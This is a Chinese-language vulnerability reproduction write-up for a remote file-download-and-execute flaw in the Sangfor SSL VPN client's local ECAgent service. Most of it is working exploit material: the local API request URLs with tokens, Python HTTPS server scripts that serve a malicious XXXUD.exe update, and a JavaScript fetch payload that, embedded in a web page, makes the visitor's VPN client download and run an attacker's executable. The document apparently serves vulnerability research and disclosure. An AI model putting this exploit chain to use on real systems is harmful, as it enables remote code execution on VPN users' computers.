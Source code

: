 # 深信服 SSL VPN 客户端远程文件下载

## 漏洞描述

深信服 SSL VPN 客户端存在远程文件下载，且文件可控下载后可执行

参考阅读：

- https://mp.weixin.qq.com/s/XbsxziIFKx8VhGd-pv0Ghg

## 漏洞影响

```
深信服 SSL VPN
```

## 漏洞复现

百度"intitle: 欢迎使用SSL VPN"，随便找一个地方下载VPN客户端下载安装：



![](images/202202091917573.png)



安装完之后访问VPN的页面，发现VPN会自动下载组件更新：



![](images/202202091917218.png)



这些请求均为GET请求并附带着一些参数，我们把它一一列下来：



![](images/202202091917102.png)



本地来看一下这个`54530`端口对应的进程是什么：

![](images/202202091917296.png)



发现这个端口是ECAgent.exe开启的，寻找到对应进程文件所在位置：



![](images/202202091917851.png)



确认这是XXX SSLVPN的程序，那么就可以将两者联系到一起，访问VPN登录首页会触发对`127.0.0.1`的访问从而引起VPN进行组件更新。



通过以上的分析我们猜测了整个大致流程，但我们设想一下如果我们可以控制本地的更新指向我们的服务器，然后将更新的组件内容替换成恶意程序，当程序启动的时候就启动了恶意程序，这样我们可以拿到安装VPN客户端的使用者PC权限。



再回到之前的本地链接列表，根据对英文的理解，参数op的值应该为其具体对应要执行的动作：



```plain
InitECAgent -> 初始化
GetEncryptKey -> 获取加密密钥
DoConfigure -> 配置
CheckReLogin -> 检查重新登录
CheckProxySetting -> 检查代理设置
UpdateControls -> 更新控制
DoQueryService -> 查询服务
```



第一个初始化的请求存在可控参数arg1：



```plain
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=vpn.xxx.edu.cn%20443&callback=EA_cb10000
```



参数`arg1=vpn.xxx.edu.cn%20443`，对应值也就是HOST+空格+端口的格式，看到这里基本上就会有一个思路，客户端更新控件是不是根据这个指定值向其发送请求更新的呢？我们可以只替换第一个初始化请求的arg1参数为`172.20.10.2 8000`，然后本地搭建一个HTTP服务：



```plain
python -m SimpleHTTPServer
```



其他的请求原封不动，依次请求一遍那一份URL



服务端成功收到请求，但是却出现了错误的提示：



![](images/202202091917373.png)

首先我们已经验证了自己的猜想，更新地址是自己可控的，客户端确实会向我们指定的服务端发送请求，但由于出现了错误我们不知道客户端访问了哪个文件，也不知道访问文件之后做了什么动作。



现在要做的就是搭建一个客户端可以正常访问的请求，通过这个错误大致可以知道，我搭建的服务端协议和客户端请求使用的协议不一致，本机抓个包发现客户端请求的是 HTTPS 协议，这就需要搭建一个 HTTPS 服务了。



如下脚本基于Python库建立一个 HTTPS 服务：



```python
# openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes

import BaseHTTPServer, SimpleHTTPServer
import ssl

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), SimpleHTTPServer.SimpleHTTPRequestHandler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```



搭建起一个 HTTPS 环境后再次复现如上请求，服务端收到日志：



![](images/202202091918528.png)



可以看见客户端会访问两个文件：



```plain
/com/WindowsModule.xml
/com/win/XXXUD.exe
```



先不管xml文件是怎么样的，可执行文件(exe)是需要重视的，但是这里通过提示可以看出客户端发出的请求是POST请求，但我们所写的Python脚本建立的HTTPS服务并不支持POST方法，我们需要重写一下Handler：



```python
import BaseHTTPServer
import SimpleHTTPServer
import cgi
import ssl

class ServerHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_POST(self):
        form = cgi.FieldStorage()
        SimpleHTTPServer.SimpleHTTPRequestHandler.do_GET(self)

Handler = ServerHandler

httpd = BaseHTTPServer.HTTPServer(('0.0.0.0', 8000), Handler)
httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
httpd.serve_forever()
```



最终如上脚本支持`POST`方法，当时用`POST`方法请求时即返回文件内容。



最后，拖一个`calc.exe`（计算器）到HTTPS网站根目录下的`/com/win/XXXUD.exe`。



依次请求（**经过多次复现发现，这三个请求才是重点的，其他的可以忽略**）：



```plain
https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=172.20.10.2 8000&callback=EA_cb10000

https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3408a894633162c62188f98e92a221967dccfa5aafbd79b576714b4d1c392a4ad4b220d698efcd939c3b1b37467023e9380ee3abf0e492ee2efc736de757b80e973fe4c7d8af1af211a3f7ff3433cd9de975c76583efe7251dd1c0656f4384832998630359b65beb131cd8d287712462fa1b9e9acbc96dcc678b84cd57178c1a&token=50065256e83ff1bb9e01757d0d22b669&callback=EA_cb10003

https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&callback=EA_cb10005
```



会发现客户端请求之后，将文件下载到本地并启动该程序，成功弹出计算器：



![](images/202202091918246.png)



Exploit很简单，当用户打开某个页面时访问那三个本地请求即可，这里使用JavaScript的fetch去实现即可：



```javascript
<script>
    // 服务器IP和端口
    var ip = "172.20.10.2";
    var port = "4443";
    var poc_list = ["https://127.0.0.1:54530/ECAgent/?op=InitECAgent&arg1=" + ip + " " + port + "&Guid=&callback=EA_cb10000", "https://127.0.0.1:54530/ECAgent/?op=CheckReLogin&arg1=3616f5b2ad1fe9b62b3d34509daa11259782919108eb2bebe59d64c808c3a079c6f6ae36b6ff1d63cb8067d08a9db72b70d912bfdb8bdc6ca18140cfa0ffb9e88b85acebf4bf544f71ff0fc662b9b95a8e939928b847018c106e1a96686e1ec3274a89ae0b8f77fc3d53a5ce0f1eec9a0ce8a5e4e2c927331cd94a67d5360a3e&token=c4202416e283e60809d3b1e04e4bae6b&Guid=&callback=EA_cb10003", "https://127.0.0.1:54530/ECAgent/?op=UpdateControls&arg1=BEFORELOGIN&Guid=&callback=EA_cb10005"];
    for(var i=0; i<poc_list.length; i++){
        setTimeout(fetch(poc_list[i]),"2000");
        
    }
</script>
```



其次就是需要一个HTTPS服务端的Python脚本，并且在脚本根目录下的`/com/win/`目录下有一个`XXXUD.exe`文件。



![](images/202202091918424.png)



